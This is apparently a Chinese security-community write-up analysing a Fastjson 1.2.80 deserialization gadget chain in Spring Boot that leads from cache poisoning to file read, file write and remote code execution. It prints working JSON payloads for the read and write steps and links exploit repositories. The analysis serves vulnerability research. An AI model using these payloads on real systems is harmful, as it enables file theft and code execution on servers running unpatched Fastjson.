# fastjson1.2.80 in Springtboot新链学习记录-先知社区

> **来源**: https://xz.aliyun.com/news/16145  
> **文章ID**: 16145

---

参考链接：  
<https://www.geekcon.top/doc/ppt/GC24_SpringBoot%E4%B9%8B%E6%AE%87.pdf>

<http://squirt1e.top/2024/11/08/fastjson-1.2.80-springboot-xin-lian/>

[GitHub - luelueking/CVE-2022-25845-In-Spring: CVE-2022-25845(fastjson1.2.80) exploit in Spring Env!](https://github.com/luelueking/CVE-2022-25845-In-Spring)

# 前言

所有依赖 Fastjson 版本 1.2.80 或更早版本的程序，在应用程序中如果包含使用用户数据调用 `JSON.parse` 或 `JSON.parseObject` 方法，但不指定要反序列化的特定类，都会受此漏洞的影响。



在之前的研究中针对fj1.2.80已经有了三种常见的利用场景

[GitHub - su18/hack-fastjson-1.2.80](https://github.com/su18/hack-fastjson-1.2.80)



# 漏洞复现

需要的依赖

* jackson
* commons-io

思路

1. 将InputStream放入fastjson缓存
2. 读取/tmp文件下的文件，找到docbase的文件名。
3. 往${docbase}/WEB-INF/classes/路径下写入恶意类
4. 通过fastjson触发类加载

[GitHub - ph0ebus/CVE-2022-25845-In-Spring: exploit by python](https://github.com/ph0ebus/CVE-2022-25845-In-Spring)



# 漏洞分析

## cache

这个新链子也是利用缓存机制


**fastjson反序列化符合条件的期望类时，会将setter参数、public字段、构造函数参数加到缓存中。**



先分析一下添加缓存的过程，以下面payload为例

```
{"@type":"java.lang.Exception","@type":"com.fasterxml.jackson.core.exc.InputCoercionException"}

```



在`TypeUtils.getClassFromMapping()`尝试从缓存中获取`java.lang.Exception`类



在`com.alibaba.fastjson.util.TypeUtils#addBaseClassMappings`初始化中默认添加了一些作为缓存了的类，其中就包含`Exception.class`



可以看到有95个缓存过的类


从缓存中获取class后返回，然后继续恢复其字段信息

`com.alibaba.fastjson.parser.ParserConfig#getDeserializer`先通过获取到的class获取对应的反序列化器





可以跟踪到这行关键代码



根据异常处理类的继承关系可以发现，`java.lang.Exception`类符合这个判断条件，于是反序列化器被设置为`ThrowableDeserializer`



在`com.alibaba.fastjson.parser.deserializer.ThrowableDeserializer#deserialze`反序列化过程中会将Exception作为期望类



然后解析json中的键值对，这里key是`@type`



当key为`@type`时会将`Throwable.class`作为期望类传入`com.alibaba.fastjson.parser.ParserConfig#checkAutoType()`




需要经过黑名单过滤和白名单校验



继续跟进到这段代码，根据传入的Typename来加载类，加载后，如果是期望类的子类则加入到缓存mapping中



## read

进一步分析一下任意读的payload

```
{
  "a": "{    \"@type\": \"java.lang.Exception\",    \"@type\": \"com.fasterxml.jackson.core.exc.InputCoercionException\",    \"p\": {    }  }",
  "b": {
    "$ref": "$.a.a"
  },
  "c": "{  \"@type\": \"com.fasterxml.jackson.core.JsonParser\",  \"@type\": \"com.fasterxml.jackson.core.json.UTF8StreamJsonParser\",  \"in\": {}}",
  "d": {
    "$ref": "$.c.c"
  }
}

```

利用循环引用尝试将字符串转换为对象并获取对象的值，按作者的话来说，这里是利用JsonPath来忽略本有的异常

接着上面继续分析，恢复好`com.fasterxml.jackson.core.exc.InputCoercionException`后，继续利用`com.alibaba.fastjson.parser.deserializer.ThrowableDeserializer#deserialze`获取字段，根据key实例化出`FieldDeserializer`进一步处理



继续，调用`TypeUtils#cast`进行类型转换



`com.alibaba.fastjson.util.TypeUtils#cast(java.lang.Object, java.lang.Class<T>, com.alibaba.fastjson.parser.ParserConfig)`会根据传入的obj进行相应的类型转换，这里会进入`Map`类型这个分支



跟进到`com.alibaba.fastjson.util.TypeUtils#castToJavaBean(java.util.Map<java.lang.String,java.lang.Object>, java.lang.Class<T>, com.alibaba.fastjson.parser.ParserConfig)`，根据构造方法参数类型clazz获取反序列化器，clazz为`com.fasterxml.jackson.core.JsonParser`



获取到反序列化器后，调用`putDeserializer`函数`this.deserializers.put(type, deserializer)`



这里就会将`type`和`deserializer`存入`com.alibaba.fastjson.util.IdentityHashMap#buckets`中



在后续恢复`com.fasterxml.jackson.core.JsonParser`中，调用`this.deserializers.findClass(typeName)`就可以从`com.alibaba.fastjson.util.IdentityHashMap#buckets`中获取到这个类





而`com.fasterxml.jackson.core.json.UTF8StreamJsonParser`是`com.fasterxml.jackson.core.JsonParser`的子类，类似前面利用`java.lang.Exception`恢复`com.fasterxml.jackson.core.exc.InputCoercionException`一样



因为实现JsonParser的类中只有`UTF8StreamJsonParser`的构造参数存在`InputStream`，因此可以进一步获取到`InputStream`

```
public UTF8StreamJsonParser(IOContext ctxt, int features, InputStream in, ObjectCodec codec, ByteQuadsCanonicalizer sym, byte[] inputBuffer, int start, int end, int bytesPreProcessed, boolean bufferRecyclable) {
    super(ctxt, features);
    this._quadBuffer = new int[16];
    this._inputStream = in;
    this._objectCodec = codec;
    this._symbols = sym;
    this._inputBuffer = inputBuffer;
    this._inputPtr = start;
    this._inputEnd = end;
    this._currInputRowStart = start - bytesPreProcessed;
    this._currInputProcessed = (long)(-start + bytesPreProcessed);
    this._bufferRecyclable = bufferRecyclable;
}

```



而获取`InputStream`就是为了实现任意文件读

[fastjson 读文件 gadget 的利用场景扩展](https://mp.weixin.qq.com/s/esjHYVm5aCJfkT6I1D0uTQ)

原blackhat usa 21的议题ppt

<https://i.blackhat.com/USA21/Wednesday-Handouts/US-21-Xing-How-I-Used-a-JSON.pdf>

这里就是通过`org.apache.commons.io.input.BOMInputStream`来逐字节盲读取文件



在`org.apache.commons.io.input.BOMInputStream#getBOM`中会调用`org.apache.commons.io.input.BOMInputStream#find`方法



跟进find方法可以发现，这里先把 delegate 输入流的字节码转成 int 数组，然后拿 `ByteOrderMark`里的 bytes 挨个字节遍历去比对，如果遍历过程有比对错误的，`getBom`方法 就会返回`null`，如果遍历结束，没有比对错误那就会返回一个`ByteOrderMark`对象



因此逐字节盲读取的关键差异点就在这里

最后输入流来源来自于`jdk.nashorn.api.scripting.URLReader`，`public URLReader(URL url)`可以传入一个 URL 对象。这就意味着 file jar http 等协议都可以使用。这里传入了file协议用于列举目录

## write

然后分析一下任意文件写的payload

```
{
  "a": {
    "@type": "java.io.InputStream",
    "@type": "org.apache.commons.io.input.AutoCloseInputStream",
    "in": {
      "@type": "org.apache.commons.io.input.TeeInputStream",
      "input": {
        "@type": "org.apache.commons.io.input.CharSequenceInputStream",
        "cs": {
          "@type": "java.lang.String"
          "${shellcode}",
          "charset": "iso-8859-1",
          "bufferSize": ${size}
        },
        "branch": {
          "@type": "org.apache.commons.io.output.WriterOutputStream",
          "writer": {
            "@type": "org.apache.commons.io.output.LockableFileWriter",
            "file": "${file2write}",
            "charset": "iso-8859-1",
            "append": true
          },
          "charset": "iso-8859-1",
          "bufferSize": 1024,
          "writeImmediately": true
        },
        "closeBranch": true
      }
    },
    "b": {
      "@type": "java.io.InputStream",
      "@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": {
        "@type": "org.apache.commons.io.input.XmlStreamReader",
        "inputStream": {
          "$ref": "$.a"
        },
        "httpContentType": "text/xml",
        "lenient": false,
        "defaultEncoding": "iso-8859-1"
      },
      "charsetName": "iso-8859-1",
      "bufferSize": 1024
    },
    "c": {}
  }

```

这里和blackhat的议题提到的也有很多共通之处，都是利用`org.apache.commons.io.input.TeeInputStream#read()`方法来写入数据



其中的一些细节可以参考

[Fastjson 1.2.68 反序列化漏洞 Commons IO 2.x 写文件利用链挖掘分析](https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg)

但是这里作者似乎找到了一个更好的链子规避blackhat议题中原Poc链子中存在的写入缓冲区的8192字节限制





## write2RCE

然后需要讨论的就是如何在任意文件写入的情况下RCE

<https://mrwq.github.io/aggregate-paper/butian/JDK8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%88%B0RCE/>

[Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索](https://landgrey.me/blog/22/)

常见的做法比如覆盖charsets.jar就是利用jvm的懒加载，覆盖<font style="color:rgb(74, 81, 83);">JDK HOME 目录下原有的 jar中</font>未被加载的charsets.jar包。但这个做法需要事先知道 JDK HOME 的目录路径，并且需要root权限。而且需要针对目标服务jdk版本准备恶意charsets.jar文件，否则可能影响正常服务；又比如利用类加载，在jdk home目录下向classes目录写入恶意class文件，然后利用fastjson的`@type`触发类加载即可RCE

这里作者也是利用了类加载，不过这里换了一个新的类加载口子

在fastjson反序列化过程中，针对不在黑白名单，并且缓存中没有的类会通过`com.alibaba.fastjson.util.TypeUtils#loadClass()`尝试加载类，其中会通过通过`TomcatEmbeddedWebappClassLoader`类加载器加载类



根据双亲委派机制会委派`WebappClassLoaderBase`来加载，一路跟下去可以发现在`org.apache.catalina.loader.WebappClassLoaderBase#findClass`中会调用`org.apache.catalina.loader.WebappClassLoaderBase#findClassInternal`方法来寻找内部类


跟进`findClassInternal`



进一步跟进`org.apache.catalina.webresources.StandardRoot#getClassLoaderResource`跟踪类加载路径




这里会判断`isCachingAllowed()`，而属性`cachingAllowed`默认为true

```
public boolean isCachingAllowed() {
    return this.cachingAllowed;
}

```



所以进到`org.apache.catalina.webresources.Cache#getResource`方法



首先调用noCache方法，很明显这里会返回true，从而调用到`this.root.getResourceInternal(path, useClassLoaderResources)`

```
private boolean noCache(String path) {
    return path.endsWith(".class") && (path.startsWith("/WEB-INF/classes/") || path.startsWith("/WEB-INF/lib/")) || path.startsWith("/WEB-INF/lib/") && path.endsWith(".jar");
}

```

跟进`org.apache.catalina.webresources.StandardRoot#getResourceInternal`



就可以发现这个类加载路径



如果这个class文件存在就会正常返回该文件资源，然后恶意类加载达到RCE

# 后记

好复杂好复杂，结合三篇议题ppt才能微懂，如果有误轻喷
